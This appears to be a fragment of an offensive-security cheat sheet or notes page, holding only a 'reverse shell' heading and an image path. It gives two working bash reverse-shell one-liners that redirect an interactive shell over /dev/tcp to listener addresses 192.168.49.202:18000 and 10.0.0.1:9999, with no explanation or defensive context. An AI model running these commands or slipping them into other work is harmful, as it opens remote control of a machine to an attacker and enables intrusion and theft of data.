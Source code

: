 ### :open_file_folder: reverse shell

```
/bin/bash -l > /dev/tcp/192.168.49.202/18000 0<&1 2>&1
```
```
/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
```
